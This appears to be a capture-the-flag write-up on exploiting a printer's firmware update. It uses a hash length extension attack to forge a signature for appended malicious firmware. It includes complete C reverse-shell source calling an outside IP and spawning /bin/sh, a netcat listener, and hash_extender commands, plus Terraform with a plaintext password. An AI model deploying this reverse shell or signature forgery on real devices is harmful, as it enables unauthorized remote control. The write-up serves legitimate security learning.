

### Objective 7, "Printer Exploitation" / "Hash Extension"



So this one is straight forward. We need to create a malware to obtain shell access on the printer.
Problem is that the firmware update process checks the signature of firmware updates.

After learning about the [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), which 
is able to generate a valid signature without knowledge of the secret, i tried to append a reverse shell
to the original firmware.

With a little [help](https://www.revshells.com/) i have customized a reverse-shell, which should contact
my VM in Azure (see below) at 20.103.17.200 upon execution.

```
> more shell.c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 8080;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("20.103.17.200");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;
}
```

As i wanted to avoid opening any ports on ny home network, i have created an VM in Azure using this
terraform code:

```
module "linux-vm" {
  source = "git::https://github.com/omichels/terraform-modules/linux-vm"

  location              = "westeurope"
  rg_name               = azurerm_resource_group.rg.name
  vm_vnet_name          = "vnet-eng01-test"
  vm_vnet_address_space = "10.99.7.64/26"
  vm_subnet_name        = "eng01-subnet01-test"
  vm_pubip_name         = "debian01-pubIP-test"
  vm_nic_name           = "debian01-nic01-test"
  vm_name               = "debian01-test"
  vm_admin_name         = "azureuser"
  vm_admin_password     = "4-v3ry-53cr37-P455w0rd"
  vm_disk_size          = "30"
  nsg_open_ports        = [22, 8080]
}
```

After provisioning of that VM has finished I ssh-ed into it and opened a network listener:

```
$ nc –lvp 8080
```


Now we need to compile the shell.c and zip it

```
$ gcc shell.c -o firmware.bin
$ zip append.zip firmware.bin
```

The [hash_extender](https://github.com/solidgoldbomb/hash_extender) project from github is now used to 
generate a valid signature for our malware.

```
$ export SIGNATURE=$(cat firmware-export.json | jq .signature | tr -d "\"")
$ export FIRMWARE=$(cat firmware-export.json | jq .firmware | tr -d "\"" | base64 -d | xxd -p | tr -d "\n")
$ hash_extender --table --data=$FIRMWARE --data-format=hex --append-file=append.zip --append-format=hex -s $SIGNATURE -l 16
```


